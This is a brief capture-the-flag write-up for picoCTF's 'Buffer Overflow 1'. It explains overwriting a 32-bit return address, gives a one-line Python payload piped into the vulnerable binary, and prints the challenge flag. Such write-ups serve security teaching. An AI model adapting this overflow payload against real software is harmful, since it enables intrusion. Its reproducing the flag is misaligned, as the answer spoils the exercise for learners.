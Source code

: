 # Buffer Overflow 1

Just overwrite return address. 

This is 32-bit program, so address is aligend as 4 bytes.

python -c 'print("A" * 0x2c + "\xcb\x85\x04\x08")' | ./vuln

`picoCTF{addr3ss3s_ar3_3asyd69e032d}`